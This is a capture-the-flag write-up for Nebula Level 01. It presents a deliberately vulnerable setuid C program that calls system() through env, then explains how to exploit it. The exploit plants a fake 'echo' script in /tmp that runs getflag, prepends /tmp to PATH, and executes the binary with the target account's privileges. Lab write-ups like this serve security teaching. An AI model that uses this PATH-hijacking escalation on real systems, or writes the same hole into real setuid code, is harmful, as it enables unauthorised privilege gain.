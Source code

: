 # Nebula - Level 01

### About ###

>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
>To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

### Solution ###

This program sets the real, effective and saved user ID with `setresuid` to the effective user ID returned by `geteuid`. Idem for the group ID. It then calls the `env` command which prints “and now what ?” with echo. It’s the environment of the user executing the program that is used in that case.
Executing getflag with `flag01`’s permissions requires to create a custom-tailored echo command.

```
level01@nebula:/home/flag01$ echo "/bin/getflag; echo" > /tmp/echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo
```

And because `level01`’s `PATH` variable is used when `./flag01` is executed, by adding `/tmp` to it the program is forced to use the `echo` command located in that directory.

```bash
level01@nebula:/home/flag01$ PATH="/tmp:$PATH"
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
```